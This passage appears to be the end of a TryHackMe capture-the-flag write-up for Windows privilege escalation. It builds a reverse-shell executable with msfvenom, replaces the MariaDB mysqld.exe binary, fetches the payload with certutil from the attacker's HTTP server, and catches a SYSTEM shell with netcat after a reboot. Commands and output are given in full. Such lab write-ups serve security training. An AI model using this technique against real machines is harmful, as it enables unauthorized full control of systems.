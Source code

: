   ```
      whoami
      nt authority\system
  ```

- Now, just follow the guide and you'll get a shell as admin at the end. First create a shell with msfvenom and start both Python server and a listener.

  ```
  $ msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR-THM-IP] LPORT=5555 -f exe > mysqld_evil.exe
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x86 from the payload
  No encoder specified, outputting raw payload
  Payload size: 324 bytes
  Final size of exe file: 73802 bytes
  ```

- Now, on target machine rename the `mysqld.exe` file to `mysqld.bak` and download our shell. I used `certutil` but `curl` will work as well.

  ```
  PS C:\projects\openclinic> cd C:\projects\openclinic\mariadb\bin

  PS C:\projects\openclinic\mariadb\bin> Move-Item mysqld.exe mysqld.bak
  
  PS C:\projects\openclinic\mariadb\bin> certutil.exe -urlcache -split -f http://[YOUR-THM-IP]:80/mysqld_evil.exe mysqld.exe
  ****  Online  ****
    000000  ...
    01204a
  CertUtil: -URLCache command completed successfully.
  
  $ python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.180.46 - - [10/Jun/2025 15:53:51] "GET /mysqld_evil.exe HTTP/1.1" 200 -
  10.10.180.46 - - [10/Jun/2025 15:53:52] "GET /mysqld_evil.exe HTTP/1.1" 200 -
  ```

- Lastly, restart the target machine and wait a bit for a machine to reboot and you'll get a connection as admin.

  ```
  PS C:\projects\openclinic\mariadb\bin> Restart-Computer
  
  $ nc -lvnp 5555                             
  listening on [any] 5555 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.180.46] 49671
  Microsoft Windows [Version 10.0.17763.737]
  (c) 2018 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami
  nt authority\system
  ```

- You already know where the root flag is, just go and read it and say I AM ROOOOOOOOOOOOOOOOOOOOOOOOOT!

---